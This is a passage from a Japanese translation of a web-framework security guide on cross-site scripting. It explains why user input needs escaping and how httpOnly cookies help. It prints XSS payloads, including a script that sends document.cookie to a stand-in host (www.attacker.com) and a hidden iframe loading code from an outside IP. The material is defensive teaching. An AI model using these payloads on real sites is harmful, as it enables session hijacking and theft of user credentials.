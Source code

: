 #### HTML/JavaScriptインジェクション

XSS攻撃に利用されやすい言語は、言うまでもなくクライアント側で最も普及している言語であるJavaScriptであり、しばしばHTMLと組み合わせて攻撃に使用されます。 _攻撃を避けるにはユーザー入力をエスケープする_ 必要があります。

XSSをチェックする最も簡単なテストをご紹介します。

```html
<script>alert('Hello');</script>
```

このJavaScriptコードを実行すると、警告ボックスが1つ表示されるだけです。次の例では、見かけの動作はまったく同じですが、通常ではありえない場所にコードが置かれています。

```html
<img src=javascript:alert('Hello')>
<table background="javascript:alert('Hello')">
```

##### Cookie窃盗

先ほどの例では何の害も生じないので、今度は攻撃者がユーザーのcookieを盗み出す手法をご紹介します (攻撃者はこれを使用してユーザーのセッションをハイジャックします)。JavaScriptでは、document.cookieプロパティを使用してドキュメントのcookieを読み書きできます。JavaScriptでは同一生成元ポリシーが強制的に適用されます。これは、あるドメインから送り込まれたスクリプトからは、別のドメインのcookieにアクセスできないようにするポリシーです。document.cookieプロパティには、生成元webサーバーのcookieが保存されています。しかし、HTMLドキュメントに直接コードを埋め込むと(XSSによってこれが生じることがあります)、このプロパティを読み書きできてしまいます。このコードを自分のWebアプリケーションの適当な場所に手動で注入すると、そのページに含まれている自身のcookieが表示されるのがわかります。

```
<script>document.write(document.cookie);</script>
```

もちろん、攻撃者にしてみれば標的ユーザーが自分で自分のcookieを表示したところで何の意味もありません。次の例では、http://www.attacker.com/ というURLから画像とcookieを読み込みます。言うまでもありませんが、このURLは実際には存在しませんので、ブラウザには何も表示されません(訳注: 現在は売り物件のWebページがあるようです)。ただし攻撃者はWebサーバーのアクセスログファイルを調べて標的ユーザーのcookieを参照することができます。

```html
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

www.attacker.com サイト上のログファイルには以下のように記録されます。

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

この攻撃をある程度軽減するためには[httpOnly](http://dev.rubyonrails.org/ticket/8895)フラグをcookieに追加します。これにより、JavaScriptを使用してdocument.cookieを読み出せなくなります。HTTP only cookieはIE v6.SP1、Firefox v2.0.0.5、Opera 9.5から使用できます。Safariはまだこのフラグを検討中であり、このオプションは無視されます。ただしWebTVやMac版IE 5.5などの古いブラウザでは、ページ上での読み込みに失敗します。なお、[Ajaxを使用するとcookieが表示可能になる](http://ha.ckers.org/blog/20070719/firefox-implements-httponly-and-is-vulnerable-to-xmlhttprequest/)ことにもご注意ください。

##### Webページの汚損

Webページを書き換える (汚損) ことで、偽の情報を表示したり、標的ユーザーを攻撃者の偽サイトに誘い込んでcookieやログイン情報などの重要データを盗み出すなどのさまざまな攻撃が可能になります。最も多い攻撃は、iframeを使用して外部のコードをWebページに含める方法です。

```html
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
```

このコードによって、外部にある任意のHTMLやJavaScriptが読み込まれ、Webサイトの一部として埋め込まれます。上のiframeは、[Mpack攻撃フレームワーク](http://isc.sans.org/diary.html?storyid=3015)を使用してイタリアにあるWebサイトへの攻撃で実際に用いられたものです。MpackはWebブラウザのセキュリティホールを介して邪悪なソフトウェアをインストールしようとします。そして攻撃の成功率は50%を誇っています。

